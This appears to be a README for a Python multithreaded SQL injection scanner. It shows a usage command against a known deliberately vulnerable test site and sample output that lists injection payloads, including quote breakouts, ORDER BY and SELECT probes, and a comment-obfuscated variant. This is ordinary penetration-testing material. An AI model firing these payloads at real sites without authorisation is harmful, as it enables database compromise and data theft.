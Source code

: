 # SQLi
SQLi tool created with python in order to scan web urls from sql injection vulnerabilities using multithread approach   
example to check  http://testphp.vulnweb.com/artists.php?artist=1 from vulnerabilities 
---------------------------------------------------------------------------------------

python3 SQLi.py  http://testphp.vulnweb.com/artists.php?artist=1  
SQLi is an open-source tool used in penetration testing to detect and exploit SQL injection flaws.
SQLi automates the process of detecting and exploiting SQL injection.
SQL Injection attacks can take control of databases that utilize SQL.
They can affect any website or web app that may have a SQL database linked to it, such as MySQL, SQL Server, Oracle and many others.

[+] SQL Injection vulnerability detected, link: http://testphp.vulnweb.com/artists.php?artist=1"\
[+] SQL Injection vulnerability detected, link: http://testphp.vulnweb.com/artists.php?artist=1'+orDeR+by+1+/*\
[+] SQL Injection vulnerability detected, link: http://testphp.vulnweb.com/artists.php?artist=1";+SeleCT+1+/*\
[+] SQL Injection vulnerability detected, link: http://testphp.vulnweb.com/artists.php?artist=1") /*!50000ORDER*//**//*!50000BY*/ 1337 -- -\
[+] Detected 1 forms on http://testphp.vulnweb.com/artists.php?artist=1.
[+] Detected 1 forms on http://testphp.vulnweb.com/artists.php?artist=1.
[+] Detected 1 forms on http://testphp.vulnweb.com/artists.php?artist=1.
[+] Detected 1 forms on http://testphp.vulnweb.com/artists.php?artist=1.



This work created by 
Aminah Abdullah - Wasmiyah Alqahtani - Jana Alansari 
